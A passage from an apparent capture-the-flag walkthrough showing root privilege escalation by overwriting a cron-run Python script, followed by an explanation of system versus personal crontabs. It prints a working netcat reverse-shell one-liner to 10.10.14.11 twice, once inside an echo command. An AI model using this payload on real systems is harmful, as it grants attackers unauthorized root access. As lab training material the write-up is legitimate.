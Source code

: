 {% highlight python linenos %}
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f")
{% endhighlight %}

Since this file seems to be regularly executed with `root` permissions and since we have permissions to edit it, we could place the python code above into the file to obtain a shell as `root`. This code simply uses the `os` module to execute the reverse shell payload which was used earlier to obtain the initial shell as the `sun` user. To overwrite the `script.py` file with this content, we execute the command below in the `/home/sun/Documents` folder.

{% highlight bash linenos %}
echo 'import os\nos.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f")' > script.py
{% endhighlight %}

![rootShell](/assets/{{ imgDir }}/rootShell.png)

Then, we start a netcat listener by executing `nc -lvnp 443` and wait for our malicious python script to execute. After at most 5 minutes, we get a connection and obtain a root shell as can be seen in the image above.

# Extra - Finding the Cron Job
When enumerating the target as the `sun` user, it wasn't possible to find any cron job which was configured to execute the `script.py` script on a regular basis as the `root` user. To understand why, we need to understand that there are two types of crontabs. The first is the system wide crontab which corresponds to the file `/etc/crontab`. This file contains one cron job per line and includes a column which defines with which user's permissions each cron job should execute. The second type is personal crontabs. Personal crontabs are normally stored in `/var/spool/crontabs/[username]` where `username` corresponds to the username which the personal crontab belongs to. A personal crontab can only be accessed by its corresponding user and always executes with the permissions of the corresponding user.

![extra1](/assets/{{ imgDir }}/extra1.png)

Once we have a root shell, we can find the personal cron jobs of the `root` user by executing the command `crontab -l` as shown above. The `grep -v '#'` part of the command is only used to omit comments from the output. The `crontab -l` command shows the personal crontab of the `root` user which is stored in the file `/var/spool/crontabs/root` and can only be accessed by the `root` user. As can be seen in the output of the command, the `script.py` script is executed every 5 minutes. In conclusion, the `sun` user could not possibly have found this cron job since it was located in the `root` user's personal crontab which only the `root` user is permitted to access.


